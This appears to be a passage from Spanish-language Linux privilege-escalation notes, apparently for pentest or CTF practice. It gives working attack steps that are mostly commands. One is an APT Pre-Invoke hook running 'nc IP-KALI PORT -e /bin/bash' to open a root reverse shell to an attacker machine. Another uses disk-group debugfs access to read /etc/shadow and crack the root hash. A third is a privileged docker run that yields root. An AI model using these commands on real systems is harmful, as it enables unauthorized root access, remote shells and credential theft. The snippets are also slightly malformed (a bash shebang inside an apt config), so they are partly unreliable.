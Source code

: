 
Permisos de escritura sobre la carpeta /etc/apt/apt.conf.d

entramos en la carpeta /etc/apt/apt.conf.d

creamos un archivo 00rev, cuyo contenido es:

#!/bin/bash

APT::Update::Pre-Invoke {"nc IP-KALI PORT -e /bin/bash"}

me pongo en escucha en el puerto PORT y listo soy root !!!


********************************************************

Parte 7.- Ver resultados del comando id:

a.- membresía del grupo - 6(disk)

El grupo de discos le da al usuario acceso a cualquier dispositivo de bloque contenido en /dev/. Podemos aprovechar esto para acceder al sistema de archivos raíz y leer el archivo /etc/shadow para descifrar la contraseña del usuario raíz

ejemplo

enumeramos:
df -h


resultado
/dev/sda1


ejecutamos
/usr/sbin/debugfs /dev/sda1

resultado:
debugfs: 

ejecutamos:
debugfs: mkdir test

resultado :
mkdir: Filesystem opened read/only 


ejecutamos:
debugfs:  cat /etc/shadow

copiamos el hash el usuario root y tratamos de crackear

b.- docker

ejecutamos: 

docker run -it --rm --privileged ubuntu bash


listo somos root.
********************************************************

Parte 8.- Busque la palabra password
